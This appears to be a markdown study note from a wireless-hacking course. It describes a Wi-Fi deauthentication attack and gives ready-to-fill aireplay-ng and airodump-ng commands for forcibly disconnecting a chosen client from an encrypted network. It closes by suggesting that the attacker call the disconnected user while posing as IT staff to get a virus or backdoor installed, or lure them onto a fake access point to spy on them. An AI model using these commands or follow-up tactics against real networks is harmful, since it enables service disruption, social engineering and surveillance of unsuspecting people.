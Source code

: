 # Deauthentication Attack

1. Deauthentication Attack: Disconnect any client from any network
    1. Works on encrypted networks(WEP, WPA & WPA2)
    2. No need to know the network key.
    3. No nedd to connect to the network

2. Procedure: 
    1. We're going to pretend to be the client that we want to disconnect by changeingour MAC address to the MAC address of that client and tell the router that I want to disconnect from you.
    2. Then we're going to pretend to be the router, by changing out MAC Address to the router's MAC Address and tell the client that you requested to be disconnected so i'm going to diconnect you.
    3. This will allow us to successfully disconnect or deauthenticate any client from any network.
![Precedure](./pic/2_4_1.jpg)

3. Using aireplay-ng in practice
    ```
    # 1. Firstly, when we want to make it successful, we need to split the terminal window and run the packet sniffing and deauth at the same time.
    
    airodump-ng --bssid [BSSID] --channel [Channel] [interface name]

    # 2. Using the aireplay-ng

    aireplay-ng --deauth 100000000 -a [MAC Address of the target network] -c [MAC Address of the target client] (-D) [interface name]
    # 100000000 is number of deauthentication packets that I want to send. It's always very large so can keep sending it to both the router and the target device to disconnect it for a long time.
    # Add -D is the target is 5Ghz

    # 3. If this still doesn't work meaning the target is using both 2.4Ghz and 5Ghz, which we need to repeat the above procedure again in another frequency(Mostly when attacking the PC). Although it might still can't disconnect in the display but the network of the target will be extremely slow. And we need to buy a better wireless adapter.
    ```
    ![Result](./pic/2_4_2.png)

4. What we can do
    1. Where you could disconnect clients from the target network and then call the user and pretend to be a person from the IT department and ask them to install a virus or a backdoor telling them that this would fix their issue.
    2. You could also create another fake access point and get them to connect to the fake access point and then start spying on them rom that access point.